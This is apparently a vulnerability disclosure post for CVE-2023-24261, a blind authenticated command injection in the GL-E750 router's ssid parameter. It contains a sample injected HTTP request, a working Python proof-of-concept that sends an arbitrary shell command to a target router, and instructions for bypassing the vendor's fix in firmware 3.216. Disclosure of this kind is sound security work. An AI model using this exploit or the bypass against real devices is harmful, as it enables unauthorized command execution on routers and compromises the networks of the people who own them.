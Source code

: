 ```yaml
---
title: 'CVE-2023-24261: GL-E750 Blind Authenticated Command Injection'
date: 2023-05-18 00:00:01
tags: 
- security-research
- web
- iot
---
```


# [CVE-2023-24261](https://nvd.nist.gov/vuln/detail/CVE-2023-24261): GL-E750 Blind Authenticated Command Injection
* **CVSS Score** - 8.4, High ([CVSS:3.0/AV:A/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:A/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H))
* **Overview** - The value of the `ssid` parameter in an authenticated POST request to `/cgi-bin/api/ap/enable` is piped directly into a command (no output is received). This only affects model `E750` of the GL.iNET routers, and the user must have admin access to run the command. Affected firmware version is <= 3.215. The command cannot be longer than 46 characters. Example request below:

```
POST /cgi-bin/api/ap/enable HTTP/1.1
Host: 192.168.8.1
Authorization: 80dafe40822e4a59b6daabd659617963
Connection: close
Content-Length: 60

id=3&enable=false&ssid=';touch+/tmp/command_injection;echo+'
```

* **Description** - The `ap_enalbe_v2` function in the `/www/api` binary (located at `0x4258dc`) handles all requests made to `/cgi-bin/api/ap/enable`. If the model name is `e750`, then the `ssid` parameter from the HTTP request is piped directly into the command `e750-mcu '%s %s';sleep 1;killall -16 e750-mcu`, meaning a payload such as `';touch+/tmp/command_injection;echo+'` would result in the command `e750-mcu '';touch /tmp/command_injection;echo ' a';sleep 1;killall -16 e750-mcu` being run.
* **Steps to reproduce** - run the Proof of Concept below using `python3 exploit.py <domain/IP> <authtoken> "<command>"`, such as `python3 exploit.py 192.168.8.1 80dafe40822e4a59b6daabd659617963 "touch /tmp/gl_token_legoclones"`

*Note - a request has been sent to MITRE to publish the reserved CVE*

## Fix
This vulnerability was "fixed" in 3.216, but can easily be bypassed. Instead, you just set the actual name of an Access Point to the command injection payload, and then send a request to `/api/ap/enable` with the right index and it will work.

# PoC
```python
import requests, sys
import urllib.parse
import warnings
warnings.filterwarnings("ignore")


## Get arguments
if (len(sys.argv) < 3):
    print("Usage: python3 exploit.py <domain/IP> <authtoken> \"<command>\"")
    sys.exit(1)

url = sys.argv[1]
token = sys.argv[2]
command = sys.argv[3]


## Check command length
if len(command) >= 46:
    print("Command too long")
    sys.exit(1)


## Send request
data = "id=37&enable=false&ssid=';"+urllib.parse.quote_plus(command)+";echo+'"
headers = {'Authorization': token}
response = requests.request("POST", "https://"+url+"/cgi-bin/api/ap/enable", verify=False, timeout=4, data=data, headers=headers)


## Check response
try:
    code = response.json()['code']
    if code == -1:
        print("[-] Auth token invalid")
    elif code == 0:
        print("[+] Command executed")
    else:
        sys.exit(1)
except:
    print("[-] Machine not vulnerable, error was encountered")
```